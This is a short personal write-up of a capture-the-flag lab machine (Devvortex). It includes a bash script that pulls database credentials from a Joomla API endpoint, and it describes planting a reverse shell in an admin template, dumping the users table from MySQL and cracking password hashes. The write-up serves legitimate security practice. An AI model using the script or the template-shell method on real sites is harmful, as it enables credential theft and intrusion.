 I made this into a bash script.

![[/Untitled 87 2.png|Untitled 87 2.png]]

```Bash
#!/bin/bash

# URL to fetch users /api/index.php/v1/users?public=true
# URL to fetch config /api/index.php/v1/config/application?public=true

\#Global Variables
declare -r main_url='http://dev.devvortex.htb'
declare -r config_path='/api/index.php/v1/config/application?public=true'
declare -r users_path='/api/index.php/v1/users?public=true'


\#Main
echo -e "\n [*] Obteniendo datos de usuarios en $main_url$users_path\n"
curl -s -X GET "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true" | jq '.data' | grep -E 'user|
password' | tr -d ',' | tr -d '\"'
```

Once inside the CMS we are logged in as admin.

So if I navigate to the templates, specifically **system>templates>admin templates>login.php**

![[/Untitled 88 2.png|Untitled 88 2.png]]

Added the reverse shell one liner.

![[/Untitled 89 2.png|Untitled 89 2.png]]

And voila

As seen early, there is a MySQL DB so lets connect with the user lewis

![[/Untitled 90 2.png|Untitled 90 2.png]]

Using the DB Joomla, I found the table sd4fg_users, where I also found

![[/Untitled 91 2.png|Untitled 91 2.png]]

![[/Untitled 92 2.png|Untitled 92 2.png]]

Using crackstation WONT WORK

Neither hashcat worked

I had to use john the ripper and i SAW A WRITEUP

![[/Untitled 93 2.png|Untitled 93 2.png]]

Once we have this password, we can log in as logan

![[/Untitled 94 2.png|Untitled 94 2.png]]
